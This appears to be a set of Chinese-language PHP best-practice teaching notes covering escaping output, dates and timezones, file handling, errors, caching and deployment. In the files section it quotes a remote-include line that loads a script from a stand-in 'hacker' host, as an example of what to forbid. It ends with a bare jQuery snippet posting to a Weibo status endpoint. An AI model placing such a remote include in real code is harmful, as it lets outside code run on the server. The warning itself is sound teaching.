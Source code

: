 # PHP Best Practice

## String

### 字符串连接

我有一个变量，需要与字符串一起输出，可以怎样写？

(现场写... 3min)

### 安全的输出(safety output)

我们经常会用到字符串输出。无论您是字符串输出到浏览器或数据库，你需要小心正确编码字符串。一些字符串数据具有特殊的意义和可能，采取最好的情况下，掩盖输出;在最坏的情况下，输出错误的字符串数据能引起安全漏洞


#### 解决

+ 输出一个url给a标签

+ 输出html

+ 你希望显示或者隐藏一些html

+ 你需要保留一些格式


#### rawurlencode and htmlentities

输出转义的url，输出html内容

#### remove html Tag

使用strip_tags 


### String search

PHP有字符串函数一个强大的集合功能str_replace函数，strpos和substr_replace有三个这样的例子，它们出现在第一个简单的，但我们可以用它们来完成复杂的任务。 str_replace函数替换另一个字符串的所有事件，strpos返回另一个字符串中第一次出现的位置，并substr_replace一个字符串的一部分内替换文本

## Time and Date

`time` 获取当前时间的时间戳

`mktime` 获取指定时间的时间戳


### date
获得最近的日期 `date`


熟记部分含义 https://www.sitepoint.com/premium/books/the-php-anthology-101-essential-tips-tricks-hacks-2nd-edition/online/ch04s02.html#table_placeholder-description


### timezone

`date_default_timezone_set` 设置所在时区 常用的时区：

+ Asia/Shanghai

+ America/New_York

+ America/Los_Angeles

+ Europe/Paris

### 如何获取具体某一天是本周星期几？

`strtotime` + `date`

### 如何获取一个月多少天 ？

`strtotime` + `date｀


TASK: 写个日历


## Files

关于安全性，确保文件权限
禁止远程引入文件eg：include 'http://www.hacker.com/bad_script.txt';

`allow_url_fopen` 设置off

### read a file

? 我们如何将一个代码文件打开并显示行数(类似谷歌浏览器查看源码)

+ file 

+ file_get_contents

+ readfile



### handle  files

fopen fread fwrite

对于大文件呢？

``` php
<?php
$fp = fopen('writeSecureScripts.html', 'rb');
while (!feof($fp)) {
  $chunk = fgets($fp);
  echo $chunk;
}
fclose($fp);
?>
```

### modify local file 

### access information local file

+ file_exists 

+ is_file

+ is_readable 

+ is_writeable 

+ filemtime

+ fileatime

+ filesize

### examine directories 

+ readdir 

+ opendir

+ closedir

使用  dir Class

$dir -> read()


### task show php code

`highlight_string` and `highlight_string`

### store configuration information in a file

创建ini文件使用parse_ini_file

### file download

use a few special HTTP headers and the `readfile `



### PHP 错误

+ syntax errors

+ environmental errors

+ programming errors

+ logic error


### cache

php prevent cache

set header


### Access Control

+ Http Authentication



### deploy your website 


Use revision control software.

Maintain separate development and production branches of your site in your versioning system.

Tag your production branch prior to release.

Write and run unit tests for your code.

Make sure as much of your code as possible is being exercised by your unit tests.



### Security Checklist

＋ Cross-site Scripting (XSS)





## Forms, Tables, and Pretty URLs

### 快速构建表单


$.post('http://weibo.com/aj/mblog/add?ajwvr=6&__rnd=1467268851713',{
    'text': 'test',
})










